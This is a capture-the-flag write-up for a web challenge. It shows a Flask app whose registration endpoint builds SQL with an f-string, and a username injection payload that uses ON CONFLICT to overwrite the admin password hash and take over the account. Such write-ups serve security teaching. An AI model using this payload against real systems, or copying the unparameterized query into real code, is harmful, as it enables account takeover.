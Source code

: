 # Spooky Query Leaks

Author: RJCyber

category: web

Description: `HELP! A ghost just took over my website and database! Can you get back in?`

## Solution 

The name of the challenge (Spooky Query Leaks) and the description mentioning "database," it can be inferred that the website is vulnerable to SQL injection.

Let's take a look at the source code of the Flask app running on the website.

```py
from flask import Flask, render_template, request, redirect, session, g
from werkzeug.security import generate_password_hash, check_password_hash
import sqlite3

app = Flask(__name__)
app.secret_key = 'REDACTED'

DATABASE = 'challenge.db'

def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect(DATABASE)
        db.row_factory = sqlite3.Row
    return db

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()

@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        cursor = get_db().cursor()
        try:
            cursor.execute(f"INSERT INTO users (username, password) VALUES ('{username}', '{generate_password_hash(password)}')")
            get_db().commit()
            return redirect('/login')
        except sqlite3.IntegrityError:
            return "Username already taken."

    return render_template('register.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        cursor = get_db().cursor()

        cursor.execute("SELECT * FROM users WHERE username = ?", (username,))
        user = cursor.fetchone()

        if user and check_password_hash(user['password'], password):
            session['username'] = user['username']
            return redirect('/dashboard')
        else:
            return "Invalid credentials."

    return render_template('login.html')

@app.route('/dashboard')
def dashboard():
    if 'username' not in session:
        return redirect('/login')

    username = session['username']
    cursor = get_db().cursor()

    if username == 'admin':
        cursor.execute("SELECT flag FROM flags")
        flag = cursor.fetchone()['flag']
        return render_template('dashboard.html', username=username, flag=flag)

    return render_template('dashboard.html', username=username, flag=None)

if __name__ == '__main__':
    app.run(debug=False)
```

The vulnerability lies in `/register` since the other endpoints have parameterized queries. The register endpoint is the only one that uses user input without parameterization, making it vulnerable to SQL injection. However, the injection here involves the following `INSERT` statement: 

`INSERT INTO users (username, password) VALUES ('{username}', '{generate_password_hash(password)})`

Since we can control the username input, we can try to overwrite the admin user in the database by injecting the INSERT statement. Additionally, the hashing algorithm for the password is known, which allows us to create our own password and hash it using the same function. The `generate_password_hash()` function comes from the `werkzeug.security` python library. 

We can generate our own hash by running this code:

```py
from werkzeug.security import *
print(generate_password_hash('password'))
```

The output hash can then be used for the injection to set a password on the user we register.

`scrypt:32768:8:1$wZEReaEsvTYA8XAL$266ab0a3862ba2a6119e0f575c1de17ce1ac079e77f122e26d04beb9253f414e44315362d86a6a252ff08d02047d476f650c3b8a7b50c8b17e04a8e597288e61`

So, we can now control the register statement.
`admin', 'scrypt:32768:8:1$wZEReaEsvTYA8XAL$266ab0a3862ba2a6119e0f575c1de17ce1ac079e77f122e26d04beb9253f414e44315362d86a6a252ff08d02047d476f650c3b8a7b50c8b17e04a8e597288e61'); -- -`

However...
We cannot overwrite the admin user's password quite yet. For this we need to add `ON CONFLICT` to overwrite the admin entry in the database.

The final payload ends up being:

```
admin', 'scrypt:32768:8:1$wZEReaEsvTYA8XAL$266ab0a3862ba2a6119e0f575c1de17ce1ac079e77f122e26d04beb9253f414e44315362d86a6a252ff08d02047d476f650c3b8a7b50c8b17e04a8e597288e61') ON CONFLICT(username) DO UPDATE SET password = "scrypt:32768:8:1$wZEReaEsvTYA8XAL$266ab0a3862ba2a6119e0f575c1de17ce1ac079e77f122e26d04beb9253f414e44315362d86a6a252ff08d02047d476f650c3b8a7b50c8b17e04a8e597288e61"; -- -
```

This would cause the full query to become:

`INSERT INTO users (username, password) VALUES ('admin', 'scrypt:32768:8:1$wZEReaEsvTYA8XAL$266ab0a3862ba2a6119e0f575c1de17ce1ac079e77f122e26d04beb9253f414e44315362d86a6a252ff08d02047d476f650c3b8a7b50c8b17e04a8e597288e61') ON CONFLICT(username) DO UPDATE SET password = "scrypt:32768:8:1$wZEReaEsvTYA8XAL$266ab0a3862ba2a6119e0f575c1de17ce1ac079e77f122e26d04beb9253f414e44315362d86a6a252ff08d02047d476f650c3b8a7b50c8b17e04a8e597288e61"; -- -', '{generate_password_hash(password)})`

After overwriting the admin password, you can then login with username `admin` and the password set by the payload (`password` in our case).

